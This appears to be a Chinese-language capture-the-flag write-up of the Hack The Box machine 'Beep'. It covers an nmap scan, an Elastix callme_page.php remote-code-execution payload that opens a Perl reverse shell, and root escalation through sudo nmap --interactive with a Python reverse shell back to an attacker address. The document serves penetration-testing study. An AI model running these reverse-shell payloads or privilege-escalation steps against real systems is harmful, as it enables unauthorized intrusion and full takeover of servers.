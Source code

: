# beep

## 信息收集

```
nmap -vv -sV -sT -T 4 10.129.1.226
```

```
PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?      syn-ack
80/tcp    open  http       syn-ack Apache httpd 2.2.3
110/tcp   open  pop3?      syn-ack
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
143/tcp   open  imap?      syn-ack
443/tcp   open  ssl/https? syn-ack
993/tcp   open  imaps?     syn-ack
995/tcp   open  pop3s?     syn-ack
3306/tcp  open  mysql?     syn-ack
4445/tcp  open  upnotifyp? syn-ack
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1
```

访问80端口，会被重定向到443端口，使用了低版本的TLS协议。在火狐里输入about:config,搜索tls.version,将tls最小的支持版本改为TLS V1

![image-20230503002320882](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230503002320882.png)

后续就可以无视风险正常访问了:laughing:

![image-20230502172812207](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230502172812207.png)

## 漏洞利用

这里查询了一下elastix的漏洞

```shell
searchsploit elastix
```

有个RCE,贴上exp

```
https://10.129.1.226/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.9%3a1234%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```

这里需要注意，必须按照payload的格式对一些特殊符号url编码，第一次利用的时候url decode成明文，发现并没有收到shell。

拿到shell后利用python创建个交互式终端

```
python -c 'import pty; pty.spawn ("/bin/bash")'
```

## 权限提升

```
sudo -l
```

这里卡住了，查了下可以利用nmap的---interactive提权

```
sudo nmap --interactive
nmap> !python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
┌──(root💀Chinchin)-[/usr/…/modules/exploits/unix/http]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.1.226] 33372
bash: no job control in this shell
bash-3.2# whoami
root

```



